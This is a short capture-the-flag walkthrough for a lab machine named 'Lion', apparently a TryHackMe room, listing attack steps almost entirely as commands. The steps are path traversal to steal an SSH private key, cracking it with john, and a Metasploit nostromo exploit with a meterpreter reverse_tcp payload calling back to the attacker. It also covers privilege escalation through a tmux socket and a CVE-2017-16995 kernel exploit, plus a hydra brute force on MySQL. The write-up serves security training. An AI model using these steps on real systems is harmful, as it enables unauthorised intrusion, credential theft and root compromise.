 # Lion
## Method 1
3. http://lion.thm:5555/?page=../../../home/gloria/.ssh/id_rsa
4. `chmod 600 id_rsa`
5. `ssh2john id_rsa > for_john&&john for_john --wordlist=/usr/share/wordlists/rockyou.txt`
6. `ssh -i id_rsa gloria@lion.thm`
## Method 2
1. `use exploit/multi/http/nostromo_code_exec`
2. `set rport 8080`
3. `set rhost lion.thm`
4. `set payload linux/x86/meterpreter/reverse_tcp`
5. `set lhost tun0`
6. `exploit`
## Method 3
1. http://lion.thm/upload/


## Privilage Esc. 1
1. `/usr/bin/tmux -S /.dev/session`
## Priv Esc. 2
1. https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
2. `gcc --static exploit-poc-pentest.c -o exploit-poc-pentest` and upload it
3. `chmod +x ./exploit-poc-pentest`
4. `./exploit-poc-pentest`
## Flags
	cat /home/gloria/user.txt
	cat /home/marty/user.txt (Reversed)
	cat /home/alex/user.txt (Rot13)
	cat /root/.flag
	cat /opt/code/server.py
		MySQL: db-> blog, table-> users, id-> 140
		`hydra -l root -P /usr/share/wordlists/rockyou.txt lion.thm mysql`
